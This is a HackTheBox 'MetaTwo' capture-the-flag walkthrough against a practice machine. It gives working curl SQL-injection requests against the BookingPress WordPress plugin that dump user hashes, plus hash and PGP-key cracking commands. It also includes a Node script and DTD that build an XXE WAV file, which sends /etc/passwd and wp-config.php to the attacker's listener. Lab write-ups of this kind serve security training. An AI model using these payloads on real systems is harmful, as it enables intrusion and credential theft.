 # HackTheBox Meta-Two

## NMAP

```
Nmap scan report for metapress.htb (10.10.11.186)                                                                                                                                                                        
Host is up (0.13s latency).
Not shown: 947 filtered tcp ports (no-response)
PORT      STATE  SERVICE          VERSION
21/tcp    open   ftp              ProFTPD
22/tcp    open   ssh              OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:       
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp    open   http             nginx 1.18.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/         
|_http-generator: WordPress 5.6.2
|_http-title: MetaPress &#8211; Official company site
| http-cookie-flags: 
|   /:                
|     PHPSESSID:           
|_      httponly flag not set
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:                
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0

```

## PORT 80

Visting the webserver, it redirects to `metapress.htb`

<img src="https://i.imgur.com/If1wETt.png"/>

Adding the domain name in `/etc/hosts` file

<img src="https://i.imgur.com/Y6Rc9v4.png"/>

<img src="https://i.imgur.com/D1wYbZp.png"/>

From wappalyzer, it seems that it's using wordpress version 5.6.2

<img src="https://i.imgur.com/Fhnf0Q2.png"/>

So running `wpscan` against the url 

```bash
wpscan --url http://metapress.htb/
```

<img src="https://i.imgur.com/3JszivN.png"/>

<img src="https://i.imgur.com/CZPSyoY.png"/>

It only returned the version which we already knew but didn't found any plugins, searching for CVEs related to wordpress, it shows sql injection via WP_QUERY in wordpress version till 5.8.2 which means this version might be vulnerable as well but it didn't worked

<img src="https://i.imgur.com/ZUlqEkg.png"/>

There was another CVE specifically for this version but it was an authenticated XXE so probably we'll need to login

<img src="https://i.imgur.com/SLeDDHo.png"/>
Enumerating site by going to `/events` and viewing the source, will show a plugin named `booking press` being used, not sure why wpscan didn't find it

<img src="https://i.imgur.com/eGjMgAv.png"/>

<img src="https://i.imgur.com/Xm3iata.png"/>

And this plugin has an un aunthenticated sql injection exploit

<img src="https://i.imgur.com/fwVuE7B.png"/>
We just only need the nonce which we can get the from view source

<img src="https://i.imgur.com/9OFJTOY.png"/>

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=ef5a981727&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

<img src="https://i.imgur.com/jW0BhaP.png"/>

We can manully dump the data by first enumerating the table names

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=0fa9f4afbd&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(table_name),@@version_comment,@@version_compile_os,1,2,3,4,5,6 from information_schema.tables where table_schema=database()-- -' 
```

<img src="https://i.imgur.com/telx3ew.png"/>

## Foothold

Now we need to get the column names for `wp_users` because that's the table where wordpress saves user credentials but when I tried dumping the column names for some reason it wasn't working 

```bash
 curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=0fa9f4afbd&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(column_name),@@version_comment,@@version_compile_os,1,2,3,4,5,6 from information_schema.columns where table_name=wp_users-- -'
```

<img src="https://i.imgur.com/5ajDMyP.png"/>

But we don't have to worry about getting column names as it's wordpress so we can google for columns for wp_users table

<img src="https://i.imgur.com/jzFE2NZ.png"/>

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=0fa9f4afbd&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(user_login,user_pass),@@version_comment,@@version_compile_os,1,2,3,4,5,6 from wp_users-- -' 
```

<img src="https://i.imgur.com/ffciQHu.png"/>

Cracking the hashes with `hashcat`, we'll get manager's hash cracked with the password `partylikearockstar`

```bash
hashcat -a 0 -m 400 ./hash.txt /usr/share/wordlists/rockyou.txt --force
```

<img src="https://i.imgur.com/Fzf4Noz.png"/>

<img src="https://i.imgur.com/zJiBNTL.png"/>

<img src="https://i.imgur.com/GC4rTuv.png"/>

With these credentials we can login into the dashboard of wordpress but there's nothing much we could do with this user

<img src="https://i.imgur.com/JnJbrMJ.png"/>

Looking back at the authenticated XXE, we can try that 

<img src="https://i.imgur.com/hIZ80M3.png"/>

We need to generate a malicious wav file which will perform an out of band or blind XXE attack by fetching the dtd from our server which is going to read the `/etc/passwd` file and present the output to us

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.14.13:2222/?p=%file;'>" >

```

```js
const fs = require('fs');
const wavefile = require('wavefile');

let wav = new wavefile.WaveFile();
wav.fromScratch(1, 44100, '32', [0, -2147483, 2147483, 4]);
wav.setiXML('<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM \'http://10.10.14.13:2222/uwu.dtd\'>%remote;%init;%trick;]>');
fs.writeFileSync('malicious.wav', wav.toBuffer());

```

Before running the script, make sure install `wavefile` npm package with `npm -i wavefile`

<img src="https://i.imgur.com/1t6wSAR.png"/>

Simply upload the `malicious.wav` file through `Media Library` option and check the listener

<img src="https://i.imgur.com/ivpYnAH.png"/>
Decoding the base64 file contents we'll get /etc/password from the target machine

<img src="https://i.imgur.com/LH3qZIx.png"/>

Now reading `wp-config.php` which should one directory back 

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.14.13:2222/?p=%file;'>" >
```

<img src="https://i.imgur.com/61OheCg.png"/>

With these credentials we can login to ftp

<img src="https://i.imgur.com/T62Nwkr.png"/>

By going into `mailer` directoy, there's `send_mail.php` from where we can find jnelson's password and login through ssh

<img src="https://i.imgur.com/wpY1nxO.png"/>

Running `sudo -l` we see that this user isn't in sudeors group

<img src="https://i.imgur.com/HMLuU5m.png"/>

## Privilege Escalation

Checking the files which are owned by jnelson group, we see few files related to `passpie`  which is a command line manager

<img src="https://i.imgur.com/QihBmY9.png"/>

Here we'll see the pgp message that is encrypted

<img src="https://i.imgur.com/oFI5OYF.png"/>


We'll also find the pgp private key from `/home/.passpie/keys`

<img src="https://i.imgur.com/XEhEINp.png"/>

To crack the pgp message we need to know the password of the private key so that we can import it and do that we can use `gpg2john`

```bash
 /usr/sbin/gpg2john ./private.key >  private_hash 
```

<img src="https://i.imgur.com/l9ZGghT.png"/>

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt private_hash
```

<img src="https://i.imgur.com/I0BVDAX.png"/>

With the password `blink182` we can import the private key

<img src="https://i.imgur.com/Izu3GdE.png"/>

<img src="https://i.imgur.com/NQPscIP.png"/>

Which might be the password for root user, so switching to root user

<img src="https://i.imgur.com/GLzP0yD.png"/>

We can export passwords from passpie as well with `export` option by specifying the private key password and the path where we want to save the file 

<img src="https://i.imgur.com/AI2yc8c.png"/>

## References


- https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
- https://wpscan.com/vulnerability/7f768bcf-ed33-4b22-b432-d1e7f95c1317
- https://wpscan.com/wordpress/562
- https://codex.wordpress.org/Database_Description

